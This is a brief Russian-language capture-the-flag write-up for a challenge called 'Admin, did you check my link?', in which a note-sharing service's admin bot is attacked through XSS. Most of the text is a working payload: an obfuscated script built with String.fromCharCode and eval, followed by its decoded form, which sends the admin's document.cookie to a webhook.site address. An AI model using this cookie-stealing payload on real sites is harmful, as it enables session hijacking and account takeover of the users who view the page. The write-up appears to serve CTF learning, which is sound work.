 # Admin, did you check my link?

Простой сервис с подсчетом каких то параметров в строке и отправки ссылки админу на проверку.
Логично предположить что это XSS, однако отправить админу ссылку на левый сайт нельзя - есть проверка.
Обходим напирмер таким байпассом (сохраняем такую заметку и кидаем ссылку на нее):

```javascript=
<script>eval(String['fromCharCode'](102 ,101 ,116 ,99 ,104 ,40 ,39 ,104 ,116 ,116 ,112 ,115 ,58 ,47 ,47 ,119 ,101 ,98 ,104 ,111 ,111 ,107 ,46 ,115 ,105 ,116 ,101 ,47 ,49 ,54 ,53 ,100 ,48 ,57 ,56 ,49 ,45 ,52 ,54 ,101 ,98 ,45 ,52 ,56 ,54 ,54 ,45 ,56 ,102 ,57 ,49 ,45 ,98 ,101 ,98 ,53 ,51 ,98 ,53 ,99 ,98 ,49 ,50 ,49 ,63 ,99 ,61 ,39 ,32 ,43 ,32 ,100 ,111 ,99 ,117 ,109 ,101 ,110 ,116 ,91 ,39 ,99 ,111 ,111 ,107 ,105 ,101 ,39 ,93 ,41))</script>
```

Что эквивалентно записи вида:
```javascript=
<script>eval(fetch('https://webhook.site/165d0981-46eb-4866-8f91-beb53b5cb121?c=' + document['cookie']))</script>
```


